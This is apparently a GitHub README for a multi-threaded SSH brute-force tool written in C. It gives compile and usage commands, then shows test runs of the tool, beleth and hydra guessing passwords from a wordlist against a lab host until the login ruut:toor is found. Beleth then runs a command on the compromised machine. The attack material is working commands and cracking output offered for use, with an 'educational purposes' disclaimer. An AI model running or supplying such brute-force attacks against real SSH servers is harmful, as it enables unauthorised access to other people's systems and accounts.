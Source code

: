 # SSH Brute Forcer

A simple, multi-threaded SSH brute force tool designed for basic brute forcing and dictionary-based attacks.

## Features

- **Multi-Threading**:
  - Utilizes multiple threads to attempt concurrent connections, potentially increasing speed.
  - Be cautious: Creating an excessive number of threads (e.g., 1000) can overwhelm the system. This feature is primarily for demonstration purposes and should be used with care.

- **Standard Brute Forcing**:
  - Tests random strings of varying lengths, which is generally inefficient and not recommended for serious use.

- **Dictionary-Based Attacks**:
  - Supports using a list of passwords from a file for more targeted attacks.

## Compile

```
	$ cc -o ssh-brute-forcer ssh-brute-forcer.c -I/usr/local/include -L/usr/local/lib -lssh -pthread -Wno-discarded-qualifiers -Wno-incompatible-pointer-types-discards-qualifiers -Wno-unknown-warning-option
```

## Usage

```
$ ./ssh-brute-forcer -h <hostname> -p <port> [-u <username>] [-p <password> | -P <password_list>] [-t <thread_count>] [-V]
```
Parameters

    -h <hostname>: The SSH server’s hostname or IP address.
    -p <port>: The SSH port (default is 22).
    -u <username>: Specific username to test.
    -p <password>: Specific password to test.
    -P <password_list>: Path to a file with a list of passwords.
    -t <thread_count>: Number of threads for concurrent testing (default is 4).
    -V: Verbose mode to display attempted passwords.

Example Commands

    Test a Single Username and Password:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -p mypassword -t 10 -V
```

This command tests the provided username and password using 10 threads and displays the attempted passwords.

Dictionary-Based Attack with a Username and Password List:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -P pass.list -t 10 -V

```

    This command tests the specified username with all passwords from pass.list using 10 threads, showing attempted passwords.

Note

The brute force method of trying random strings is highly inefficient and not suitable for practical use. Additionally, using a large number of threads can significantly impact system performance and stability. This tool is intended primarily for educational purposes and should be used responsibly.

## Test
## ssh-brute-forcer

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time ./ssh-brute-forcer -h 192.168.1.142 -p 777 -u ruut -P pass.list -t 10 -V
Attempting - Username: ruut, Password: sdf
Attempting - Username: ruut, Password: dg
Attempting - Username: ruut, Password: asd
Attempting - Username: ruut, Password: sdf
Attempting - Username: ruut, Password: asdfa
Attempting - Username: ruut, Password: asdfasdfsad
Attempting - Username: ruut, Password: sadf
Attempting - Username: ruut, Password: ga
Attempting - Username: ruut, Password: asdfg
Attempting - Username: ruut, Password: f
Attempting - Username: ruut, Password: dsf
Attempting - Username: ruut, Password: sad
Attempting - Username: ruut, Password: as
Attempting - Username: ruut, Password: f
Attempting - Username: ruut, Password: df
Attempting - Username: ruut, Password: asdasdf
Attempting - Username: ruut, Password: asd
Attempting - Username: ruut, Password: asdf
Attempting - Username: ruut, Password: fasdgafadf
Attempting - Username: ruut, Password: asdf
Attempting - Username: ruut, Password: toor
Credentials found - Username: ruut, Password: toor

real	1.58s
user	0.01s
sys	0.03s
cpu	2%
```

##beleth

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time beleth -l 10 -t 192.168.1.142 -p 777 -w pass.list -u ruut -v
┌────────────────────────────────────────┐
│                 Beleth                 │
│          www.chokepoint.net            │
└────────────────────────────────────────┘
[*] Read 21 passwords from file.
[*] Starting task manager
[*] Spawning 10 threads
[*] Starting attack on ruut@192.168.1.142:777
[+] (1762) Trying ruut asdfa
[+] (1764) Trying ruut sdf
[+] (1771) Trying ruut asdfg
[+] (1763) Trying ruut dg
[+] (1766) Trying ruut f
[+] (1765) Trying ruut ga
[+] (1770) Trying ruut sdf
[+] (1767) Trying ruut asd
[+] (1768) Trying ruut asdfasdfsad
[+] (1769) Trying ruut sadf
[+] (1771) Trying ruut df
[+] (1766) Trying ruut as
[+] (1764) Trying ruut asd
[+] (1763) Trying ruut f
[+] (1767) Trying ruut asdf
[+] (1765) Trying ruut sad
[+] (1762) Trying ruut fasdgafadf
[+] (1770) Trying ruut asdf
[+] (1768) Trying ruut dsf
[+] (1769) Trying ruut asdasdf
[+] (1770) Trying ruut toor
[*] Cleaning up child processes.
[*] Authentication succeeded (ruut:toor@192.168.1.142:777)
[*] Executing: uname -a && id
[*] Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
[*] uid=1002(ruut) gid=1002(ruut) groups=1002(ruut)
kt11-1+deb8u2 (2015-07-17) i686 GNU/Linux

real	1.45s
user	0.03s
sys	0.05s
cpu	5%
```

##hydra

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time hydra -s 777 -l ruut -P pass.list  192.168.1.142 ssh -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-25 17:41:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21 login tries (l:1/p:21), ~2 tries per task
[DATA] attacking ssh://192.168.1.142:777/
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfa" - 1 of 21 [child 0] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sdf" - 2 of 21 [child 1] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfg" - 3 of 21 [child 2] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "dg" - 4 of 21 [child 3] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "f" - 5 of 21 [child 4] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "ga" - 6 of 21 [child 5] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sdf" - 7 of 21 [child 6] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 8 of 21 [child 7] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfasdfsad" - 9 of 21 [child 8] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sadf" - 10 of 21 [child 9] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "as" - 11 of 21 [child 10] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "df" - 12 of 21 [child 11] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 13 of 21 [child 12] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "f" - 14 of 21 [child 13] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdf" - 15 of 21 [child 14] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sad" - 16 of 21 [child 15] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "fasdgafadf" - 17 of 22 [child 3] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdf" - 18 of 22 [child 11] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "dsf" - 19 of 22 [child 0] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdasdf" - 20 of 22 [child 1] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "toor" - 21 of 22 [child 2] (0/1)
[REDO-ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 22 of 22 [child 4] (1/1)
[777][ssh] host: 192.168.1.142   login: ruut   password: toor
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-25 17:41:54

real	1.64s
user	0.05s
sys	0.03s
cpu	4%
```
